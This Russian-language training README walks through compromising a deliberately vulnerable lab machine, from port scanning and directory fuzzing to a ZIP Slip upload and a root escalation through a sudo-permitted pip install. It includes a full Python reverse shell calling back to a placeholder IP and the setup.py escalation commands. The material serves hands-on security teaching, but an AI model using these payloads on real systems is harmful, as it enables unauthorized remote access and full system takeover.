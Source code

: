 # LifeTrainings - занятие от 20.03.2023

### Установка и локальный запуск

Для успешного запуска данной машины требуется установить [docker](https://habr.com/ru/articles/253877/) и выполнить следующую команду из данной директории:
```bash
docker compose up --build -d
```
В случае запуска на локальной машине - некоторые шаги по получению ReverseShell будут другими.
___

### Уязвимая машина Archive (pentest)
___
**Задача:** имея на входе только ip адрес сервиса получить полный доступ (права root) на уязвимой машине

**Решение:**

1. Этап сканирования: 
```bash
masscan -p1-65535 <ip> --rate=1000
```
>-p1-65535 - сканировать порты TCP от 1 до 65535
<ip> - айпи адрес уязвимой машины
--rate=1000 - количество пакетов посылаемое в секунду. При увеличении рейта увеличиться и скорость сканирования, но нектороые данные могут потеряться, т.к. сетевая карта/ширина канала не успеет/не позволит их обработать.

После сканирования известно о 3 открытых портах:
22 tcp - ssh хоста
4444 tcp - ssh проброшенный с контейнера
8080 tcp - web сервис

2. Изучение сайта на порту 8080:
 - Функционал сайта позволяет загружать zip архивы, при этом имеется проверка на валидность zip.
 - Можно просканировать директории через gobuster с каким либо словарем (на сервере под учеткой life доступные словари лежит в директории /wordlist), например как
 ```bash
gobuster -u http://<ip>:8080 -w /wordlist/dirb/common.txt -s "200,204,301,302,307,401,403,500"
```
>Ключ -u указывает на url для сканирования
Ключ -w указывает на словарь, по которому будут перебираться возможные пути и директории на сайте 
Ключ -s перечисляет на какие status code нужно смотреть. Тут необходимо добавить так же 500 ошибку, что бы увидеть возможные проблемные точки сайта.

После фаззинга находим два uri для данного сайта:
    - /console - по этому роуту откроется Flask Debug Console. Можем определить что сайт написан на Python с использованием фреймворка Flask. Позволяет выполнить произвольный код, но необходимо знать PIN-код.
    - /list вызывает ошибку в Debug Console. Позволяет определить что включен DEBUG режим, имеется возможность исполнение произвольного кода (необходимо знать PIN), есть раскрытие путей (можно определить пути ```/app/upload/``` и ```/app/main.py```).

3. Изучив все доступные функции можно сделать вывод, что для успешной аткаки на данный сайт нужно найти и проэксплуатировать уязвимость связанную с загрузкой архивов.
Запрос в гугл по типу ***web zip vulnerabilities*** одной из первых [ссылок](https://security.snyk.io/research/zip-slip-vulnerability) ведет на описание атаки **ZIP Slip**.
Данная атака позволяет перезаписать произвольный файл в системе (если мы знаем его путь).
Исходя из предыдущих пунктов нам известно, что:
- файлы загружаются в директорию ```/app/upload```
- доступный нам для перезаписи файл - ```main.py``` по в директории ```/app/main.py```

То есть, нам необходимо создать файл с именем ```../main.py``` и положить туда [ReverseShell](https://telegra.ph/Reverse-Shell-CHto-ehto-i-zachem-nuzhno-07-22).

4. Для генерации ReverseShell'a можно воспользоваться сервисом [revshells.com](https://www.revshells.com). Подставляем в ip адрес нашего внешнего сервера (с которого запускали сканы), в качестве порта указываем любой порт в диапазоне от 1000 до 65535 (все порты ниже 1000 требуют для запуска root прав), выбираем тип ***Python3 #2*** и копируем код в любой удобный нам редактор.

Далее необходимо привести код в примерно следующий вид:
```python
import socket,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.1.1.1",1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("sh")
```

Где вместо ```1.1.1.1``` и ```1337``` будут подставлены значения вашего ip и порта.
Теперь сохраняем этот код с любым именем на локальной системе.

5. Для генерации эксплоита можно воспользоваться готовым кодом, например взять [этот](https://github.com/cesarsotovalero/zip-slip-exploit-example.git).
- Клонируем репозиторий на локальную машину (должен быть установлен git):
```git clone https://github.com/cesarsotovalero/zip-slip-exploit-example.git```
- Заходим в директорию zip-slip-exploit-example:
```cd zip-slip-exploit-example```
- Запускаем файл evilarc.py (требуется установленный python2.7) со следующими параметрами:
```python2.7 evilarc.py --output-file team1.zip -d 1 -o unix main.py```
> --output-file имя создаваемого архива, можно указать любое
-d количество каталогов для обхода (т.е. количество добавляемых ../)
-o unix используемая платформа (win/unix)
main.py имя нашего файла с reverse-shell'ом

6. На сервере (с которого производили сканирование) запускаем listener, который будет ждать приема от нашего ReverseShell. Например так:
```nc -lvp 1337```
> ключ -l позволяет "слушать входящие соединения"
ключ -v включает verbose режим, что позволяет получать более детальную информацию
ключ -p указывает на необходимость "слушать" на порту 1337

На сервере так же установлен pwncat-cs и pwncat, для большего удобства. Так же можно все действия проводить через meterpreter.
7. Загружаем архив созданный на шаге 5 на сайт и жмем submit. Если все действия были проделаны верно, то на стороне listener после строки ```Listening on 0.0.0.0 1337``` должны появиться строки "Connection received on <address>" и "$", что означает что мы успешно получили reverse shell. Проверить можно вбив команду ```id``` и если видим ответ в виде ```uid=1000(appserver) gid=1000(appserver) groups=1000(appserver),27(sudo)``` значит все сделано верно.
8. Т.к. на данный момент мы сидим на сервере под обычной УЗ, а хочется подняться до уровня root (максимально привелегированная УЗ в системах *nix), то необходимо провести анализ на возможность локального повышения привелегий (Local Privilege Escalation или LPE):
- в ответе команды ```id``` можно заметить, что пользователь состоит сразу в нескольких группах - ```appserver``` и ```sudo```. То есть, если бы знали пароль от его УЗ, то могли бы выполнять любые действия от имени root-пользователя, но он нам не известен. 
- В некоторых случаях администраторы *nix систем оставляют возможность пользователям выполнять определенные команды от имени root без ввода пароля, с помощью редактирования файла [sudoers](https://ruvds.com/ru/helpcenter/znakomstvo-s-sudo/sudo-nastroika-faila-etc-sudoers/). Проверить доступно ли нам что-то из этого функционала можно командой ```sudo -l```
- В нашем случае мы можем выполнить команду ```sudo /usr/bin/pip install *``` без ввода пароля, что позволит нам запустить ее от имени пользователя root.
- Для поиска уязвимостей связанных с любыми бинарями в *nix системах есть прекрасный [сайт](https://gtfobins.github.io), где собранны все уловки в одном месте. Так же на сервере был установлен локальный пакет **gtfo**, позволяющий искать в терминале, например как ```gtfo -b pip```
- В нашем случае повышение привелегий сводиться к простому набору нескольких команд указанных в разделе **shell**:
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
- Проверяем удачность запусука через команду ```id``` и видим, что мы являемся root'ом в системе - то есть машина полностью под нашим контролем.


